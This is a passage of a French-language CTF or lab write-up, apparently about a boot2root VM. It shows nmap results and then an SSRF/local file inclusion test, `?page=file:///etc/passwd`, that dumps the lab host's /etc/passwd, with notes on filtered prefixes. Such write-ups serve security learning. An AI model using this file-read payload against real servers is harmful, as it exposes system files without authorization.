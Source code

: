 ```console
|       CVE-2025-49812  0.0     https://vulners.com/cve/CVE-2025-49812
|       CVE-2025-49630  0.0     https://vulners.com/cve/CVE-2025-49630
|       CVE-2025-23048  0.0     https://vulners.com/cve/CVE-2025-23048
|       CVE-2024-47252  0.0     https://vulners.com/cve/CVE-2024-47252
|       CVE-2024-43394  0.0     https://vulners.com/cve/CVE-2024-43394
|       CVE-2024-43204  0.0     https://vulners.com/cve/CVE-2024-43204
|_      CVE-2024-42516  0.0     https://vulners.com/cve/CVE-2024-42516
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
MAC Address: 00:0C:29:87:34:57 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.88 seconds
```

La page d'index servie par Apache est un formulaire qui attend une URL.

Un titre indique `Across the Great Wall we can reach every corner in the world`.

Il semble évident que l'on aura à minima un SSRF, voire un directory traversal ou, dans le meilleur des cas, une inclusion distante.

Mon premier réflexe a été de demander un fichier avec le protocole `file://` : `http://192.168.100.128/?page=file%3A%2F%2F%2Fetc%2Fpasswd` :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
wall:x:1000:1000:wall,,,:/home/wall:/bin/bash
```

Très bien !

Plus de tests montrent que sans le préfixe `file://`, ou si on utilise le préfixe `php://`, on obtient un message `nonono~`.
